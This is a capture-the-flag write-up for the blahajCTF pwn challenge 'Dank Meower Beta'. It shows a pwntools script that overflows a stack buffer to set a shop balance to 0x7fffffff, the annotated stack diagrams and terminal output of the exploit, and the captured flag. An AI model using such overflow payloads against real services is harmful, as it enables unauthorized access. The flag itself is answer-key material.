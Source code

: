 ```yaml
---
title: Dank Meower Beta
---
```


category: pwn

> I want to make a discord bot but I don't know how to use discord.py, so I made a prototype in C.

> Pst! I heard you were looking to get some flags from that flag shop over there, but they were out of stock. Luckily, I think I can help you with that... I've attached the source code of the shop [here](https://gist.github.com/azazazo/de242e67acada5e16be7c3b0745b5525), and you can download the binary [here](https://github.com/azazazo/blahajctf-files/raw/main/dank%20meower%20beta/guide). Contact me at `nc 188.166.197.31 30003` if you're still keen...

This is a simple buffer overflow challenge, with a helpful stack diagram even showing you the layout of the stack itself. The challenge already does a helpful job of explaining the basics of a buffer overflow. The stack diagram thing was cool and helpful. However, it seems that many people were stuck on how to give themselves the $2,147,483,647 (`0x7fffffff`) required to get the flag, since that requires one to input `0x7fffffff` as little-endian.

We can send the `0x7fffffff` input with a pwntools script:
```py
from pwn import *
# target = process("./guide") # use this for local testing
target = remote("104.248.97.96", 30001)
for i in range(12):
    target.sendline(b'') # press enter through the buffer overflow guide

target.sendline(p64(0x1) + p32(0x1) + p32(0x1) + p32(0x1) + p32(2147483647)) # payload
target.sendline(b'2') # shop
target.recvline()
target.sendline(b'3') # buy flag
target.interactive()
```

Now let's look at our buffer overflow payload:
{% ccb lang:py gutter1:7 %}
target.sendline(p64(0x1) + p32(0x1) + p32(0x1) + p32(0x1) + p32(2147483647)) # payload
{% endccb %}

{% ccb html:true terminal:true %}
<DIV STYLE="display:inline-block;white-space:pre;font-family:'Cascadia Code','Menlo',monospace;font-size:12px;"><SPAN STYLE="color:#DCDFE4;">lower &gt;---------------------------------------------stack direction----------------------------------------------&gt; higher<BR>  choice                                  </SPAN><SPAN STYLE="color:#61AFEF;">in_</SPAN><SPAN STYLE="color:#98C379;">sto</SPAN><SPAN STYLE="color:#E5C07B;">ck                                                    </SPAN><SPAN STYLE="color:#E06C75;">balance<BR></SPAN><SPAN STYLE="color:#DCDFE4;">┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐<BR>│ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │</SPAN><SPAN STYLE="color:#61AFEF;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│<BR>└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘<BR><BR><BR>Current balance: $0<BR>1) Beg for money<BR>2) Visit shop<BR>3) Exit<BR>lower &gt;---------------------------------------------stack direction----------------------------------------------&gt; higher<BR>  choice                                  </SPAN><SPAN STYLE="color:#61AFEF;">in_</SPAN><SPAN STYLE="color:#98C379;">sto</SPAN><SPAN STYLE="color:#E5C07B;">ck                                       </SPAN><SPAN STYLE="color:#DCDFE4;">             </SPAN><SPAN STYLE="color:#E06C75;">balance<BR></SPAN><SPAN STYLE="color:#DCDFE4;">┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐<BR>│ 01 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │</SPAN><SPAN STYLE="color:#61AFEF;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 7f </SPAN><SPAN STYLE="color:#DCDFE4;">│<BR>└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘<BR><BR><BR>1) Beg for money<BR>2) Visit shop<BR>3) Exit</SPAN></DIV>
{% endccb %}

We have overwriten `choice` with the value of 1, overwritten the stock counts of all three items with 1, and overwritten the value of balance with `0x7fffffff`

We can then proceed to buy the flag:

{% ccb html:true terminal:true %}
<DIV STYLE="display:inline-block;white-space:pre;font-family:'Cascadia Code','Menlo',monospace;font-size:12px;"><SPAN STYLE="color:#DCDFE4;">lower &gt;---------------------------------------------stack direction----------------------------------------------&gt; higher<BR>  choice                                  </SPAN><SPAN STYLE="color:#61AFEF;">in_</SPAN><SPAN STYLE="color:#98C379;">sto</SPAN><SPAN STYLE="color:#E5C07B;">ck                                       </SPAN><SPAN STYLE="color:#DCDFE4;">             </SPAN><SPAN STYLE="color:#E06C75;">balance<BR></SPAN><SPAN STYLE="color:#DCDFE4;">┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐<BR>│ 01 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │</SPAN><SPAN STYLE="color:#61AFEF;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 7f </SPAN><SPAN STYLE="color:#DCDFE4;">│<BR>└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘<BR><BR><BR>1) Beg for money<BR>2) Visit shop<BR>3) Exit<BR>lower &gt;---------------------------------------------stack direction----------------------------------------------&gt; higher<BR>  choice                                  </SPAN><SPAN STYLE="color:#61AFEF;">in_</SPAN><SPAN STYLE="color:#98C379;">sto</SPAN><SPAN STYLE="color:#E5C07B;">ck                                                    </SPAN><SPAN STYLE="color:#E06C75;">balance<BR></SPAN><SPAN STYLE="color:#DCDFE4;">┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐<BR>│ 32 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │</SPAN><SPAN STYLE="color:#61AFEF;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 7f </SPAN><SPAN STYLE="color:#DCDFE4;">│<BR>└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘<BR>   </SPAN><SPAN STYLE="color:#56B6C2;">2<BR><BR><BR></SPAN><SPAN STYLE="color:#DCDFE4;">Welcome to the shop! What would you like to buy?<BR>1) Small blahaj (in stock) - $10<BR>2) Big blahaj (in stock) - $30<BR>3) Flag (in stock) - $2,147,483,647<BR></SPAN><SPAN STYLE="color:#E06C75;">$<BR></SPAN><SPAN STYLE="color:#DCDFE4;">lower &gt;---------------------------------------------stack direction----------------------------------------------&gt; higher<BR>  choice                                  </SPAN><SPAN STYLE="color:#61AFEF;">in_</SPAN><SPAN STYLE="color:#98C379;">sto</SPAN><SPAN STYLE="color:#E5C07B;">ck                                                    </SPAN><SPAN STYLE="color:#E06C75;">balance<BR></SPAN><SPAN STYLE="color:#DCDFE4;">┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐<BR>│ 33 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │</SPAN><SPAN STYLE="color:#61AFEF;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 7f </SPAN><SPAN STYLE="color:#DCDFE4;">│<BR>└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘<BR>   </SPAN><SPAN STYLE="color:#56B6C2;">3<BR></SPAN><SPAN STYLE="color:#DCDFE4;">lower &gt;---------------------------------------------stack direction----------------------------------------------&gt; higher<BR>  choice                                  </SPAN><SPAN STYLE="color:#61AFEF;">in_</SPAN><SPAN STYLE="color:#98C379;">sto</SPAN><SPAN STYLE="color:#E5C07B;">ck                                                    </SPAN><SPAN STYLE="color:#E06C75;">balance<BR></SPAN><SPAN STYLE="color:#DCDFE4;">┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐<BR>│ 33 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │</SPAN><SPAN STYLE="color:#61AFEF;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│<BR>└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘<BR>   </SPAN><SPAN STYLE="color:#56B6C2;">3<BR><BR></SPAN><SPAN STYLE="color:#DCDFE4;">Congratulations! You now have your very own flag!<BR>Here's your flag: blahaj{buFf3r_50Lu710n5_R35157_cH4n935_1n_pH}<BR><BR>Current balance: $0<BR>1) Beg for money<BR>2) Visit shop<BR>3) Exit<BR></SPAN><SPAN STYLE="color:#E06C75;">$</SPAN></DIV>
{% endccb %}
